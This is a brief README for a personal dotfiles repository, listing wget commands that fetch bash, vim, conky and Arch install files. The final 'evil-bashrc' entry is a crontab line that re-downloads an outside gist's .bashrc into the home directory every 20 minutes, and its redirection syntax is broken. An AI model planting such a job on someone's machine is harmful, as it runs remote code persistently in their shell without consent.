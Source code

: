 # Utilities Repository

* bashrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/.bashrc
* vimrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/.vimrc
* conkyrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/conky.conf
* arch-linux
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/arch-linux.install
* evil-bashrc
> 0,20,40 * * * * wget https://gist.githubusercontent.com/n7st/19fda48a814533e4796c/raw/f7976bbbde10082cd198672c2e97c3936c3170ad/.bashrc -P ~/ | /dev/null
